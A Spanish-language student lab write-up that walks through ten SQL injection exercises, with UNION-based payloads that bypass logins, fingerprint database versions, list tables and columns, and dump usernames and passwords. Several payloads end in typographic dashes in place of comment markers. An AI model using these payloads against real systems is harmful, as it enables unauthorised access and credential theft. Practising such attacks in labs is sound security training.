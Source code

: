 ```sql
```
## Práctico 3 Base De Datos – Jose Ignacio Lavecchia

### 1. Inyección SQL básica
'+ OR 1 = 1 –  

También se podría hacer algo como esto:

SELECT * FROM products WHERE category = '' OR '1' = '1' AND released = 0; 

Suponiendo que `released` es un booleano en el que `0` es el valor de productos que no han sido liberados y `1` el de productos que ya han sido liberados.

### 2. Modificación del parámetro `username`
Modificamos el parámetro de `username` con `administrator '--` ya que así todo lo que siga en la consulta será ignorado por el `--` de los comentarios.

### 3. Uso del comando `UNION`
La idea es realizar un ataque con el comando `UNION`, pero antes debemos asegurarnos de que el número de columnas en la consulta original coincide con el número de columnas de nuestra SQL Injection. Para esto, el comando `UNION` solo va a funcionar si el número y tipo de columnas coinciden.

Utilizamos un payload como este: 
'+UNION+SELECT+'abc','def'+FROM+dual--

Después, intentamos obtener algún tipo de información de la base de datos, como por ejemplo la versión, utilizando el siguiente payload:

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### 4. Determinación del número de columnas
Primero determinamos el número de columnas que está devolviendo la query original y cuáles contienen la información. Para ello, utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

(# = Comentario)

Después utilizamos el siguiente payload para obtener la versión de la base de datos:

'+UNION+SELECT @@version,+NULL#

### 5. Obtención de tablas y datos de usuarios
Primero determinamos el número de columnas que está devolviendo la query original y cuáles contienen la información. Utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

Después, utilizamos el siguiente payload para obtener las tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns+WHERE+table_name = 'users_abcdef'—

Después de encontrar las columnas que contienen `username` y `password`, utilizamos el siguiente payload para obtener los datos de todos los usuarios:

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef—

Finalmente encontramos la contraseña para el usuario “administrator” y nos logueamos.

### 6. Listado de tablas y columnas
Primero determinamos el número de columnas y qué columnas contienen los datos. Utilizamos este payload:

'+UNION+SELECT+'abc','def'+FROM+dual—

Luego, obtenemos información sobre las tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+all_tables—

Después de identificar la tabla que tiene las credenciales, usamos el siguiente payload para obtener las columnas:

'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'—

Por último, obtenemos los nombres de usuario y contraseñas con el siguiente payload:

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF—

Buscamos al usuario llamado 'administrator' y su contraseña para iniciar sesión.

### 7. Determinación del número de columnas
Para determinar el número de columnas devueltas por la query, ejecutamos este payload:

'+UNION+SELECT+NULL,NULL—

Continuamos añadiendo `NULL` hasta que la consulta compile correctamente.

### 8. Identificación de columnas de tipo texto
Primero determinamos el número de columnas, y luego reemplazamos `NULL` por strings hasta que obtengamos una columna de tipo texto:

'+UNION+SELECT+NULL,NULL,NULL—

'+UNION+SELECT+'seraestalacolumnadetipotexto?',NULL,NULL—

### 9. Obtención de credenciales
Primero determinamos el número de columnas y qué columnas contienen datos con este payload:

'+UNION+SELECT+'abc','def'—

Después, obtenemos las credenciales de la tabla de usuarios:

'+UNION+SELECT+username,+password+FROM+users—

Buscamos el usuario llamado 'administrator' y nos logueamos.

### 10. Concatenación de credenciales
Finalmente, determinamos el número de columnas devueltas y usamos este payload para concatenar las credenciales en una sola columna, separadas por `~`:

'+UNION+SELECT+NULL,'abc'—

'+UNION+SELECT+username||'~'||password+FROM+users—
